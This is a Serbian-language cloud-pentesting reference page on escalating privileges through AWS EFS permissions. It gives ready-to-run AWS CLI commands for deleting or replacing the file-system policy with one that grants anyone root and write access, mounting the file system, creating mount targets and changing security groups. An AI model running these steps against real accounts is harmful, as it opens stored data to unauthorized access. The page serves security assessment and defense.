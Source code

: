 # AWS - EFS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EFS

Više **informacija o EFS** u:

{{#ref}}
../../aws-services/aws-efs-enum.md
{{#endref}}

Imajte na umu da, da biste mount-ovali EFS, morate biti u subnetwork-u gde je EFS izložen i imati pristup njemu (security groups). Ako je to slučaj, podrazumevano ćete uvek moći da ga mount-ujete, međutim, ako je zaštićen IAM politikama, potrebno je da imate dodatna dozvoljenja pomenuta ovde da biste mu pristupili.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Sa bilo kojom od tih dozvola napadač može **promeniti politiku file sistema** da bi vam **dao pristup** njemu, ili je jednostavno **obrisati** tako da se **podrazumevani pristup** omogući.

Za brisanje politike:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Da biste to promenili:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Sa ovom dozvolom attacker će moći da **mount the EFS**. Ako write permission nije dodeljena podrazumevano svima koji mogu da mount the EFS, on će imati samo **read access**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatna ovlašćenja `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogu se koristiti za **pisanje** unutar fajl sistema nakon što je montiran i za **pristup** tom fajl sistemu **kao root**.

**Potencijalni uticaj:** Neizravan privesc pronalaženjem osetljivih informacija u fajl sistemu.

### `elasticfilesystem:CreateMountTarget`

Ako se napadač nalazi u **podmreži** gde ne postoji **mount target** za EFS, može jednostavno **kreirati jedan u svojoj podmreži** sa ovom privilegijom:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potential Impact:** Indirect privesc pronalaženjem osetljivih informacija u fajl sistemu.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

U scenariju gde napadač otkrije da EFS ima mount target u njegovoj podmreži, ali **nijedna security group ne dozvoljava saobraćaj**, mogao bi jednostavno **to promeniti modifikujući izabrane security groups**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektan privesc pronalaženjem osetljivih informacija u datotečnom sistemu.

{{#include ../../../../banners/hacktricks-training.md}}

